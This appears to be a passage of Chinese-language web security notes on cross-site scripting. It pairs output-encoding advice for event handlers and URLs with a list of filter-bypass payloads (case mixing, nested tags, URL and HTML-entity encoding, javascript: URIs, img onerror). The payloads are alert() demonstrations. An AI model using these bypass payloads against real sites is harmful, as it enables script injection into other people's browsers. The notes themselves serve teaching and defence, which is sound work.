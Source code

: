 ### 在事件中输出

```
<a href=# onclick="funcA('xxx')">test</a>

');alert(/xss/);//

---->	<a href=# onclick="funcA('');alert(/xss/);//')">test</a>
```

### 在URL中输出

* 在URL的path或search参数中输出，使用urlencode，除字母之外其他字符均url编码

```
<a href="http://www.b.com/?name=xxx">test</a>

" onclick=alert(/xss/)"

---->	<a href="http://www.b.com/?name=" onclick=alert(/xss/)"">test</a>
```

* 整个url可以被用户完全控制,首先检查协议名是否为伪协议，白名单策略(javascript,vbscript,dataURI),然后进行urlencode

```
<a href="xxx">test</a>

javascript:alert(1)

---->	<a href="javascript:alert(1)">dianji</a>

```

## 绕过技巧

### 黑名单过滤


* 大小写绕过	`<ScRipt>ALeRt("XSS");</sCRipT>`
* 双写绕过（关键字替换为空时）	`<scr<script>ipt>alert("XSS")</scr<script>ipt>`
* 用其他替代标签（a，svg，img等）属性或事件
* url编码绕过（输出再进行url解码才行）	`%3Cscript%3Ealert(1)%3C%2fscript%3E`
* 过滤javascript伪协议

**① HTML编码绕过**

> * 如果对HTML标签的属性值进行过滤，可以编码绕过（十进制/十六进制均可），因为HTML属性值本身支持ASCII码形式，一条语句中，常规字符、十进制编码和十六进制编码混合使用也可以
> * 在线转换：http://www.jsons.cn/unicode/
> * 伪协议javasript、冒号、冒号后面都可以编码绕过，有无分号都可以 
> * 所以为了防范标签属性值编码绕过，最好也要过滤&#\等。 

```
<iframe src=javascr&#105;pt:alert(1)></iframe>
<iframe src=javascript&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#48;&#41;></iframe>
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#48;&#41;>        //十进制
<img src=x onerror=&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0031;&#x0029;>            //十六进制
```
**② 还可以tab或换行绕过，这种一定要在引号里面**
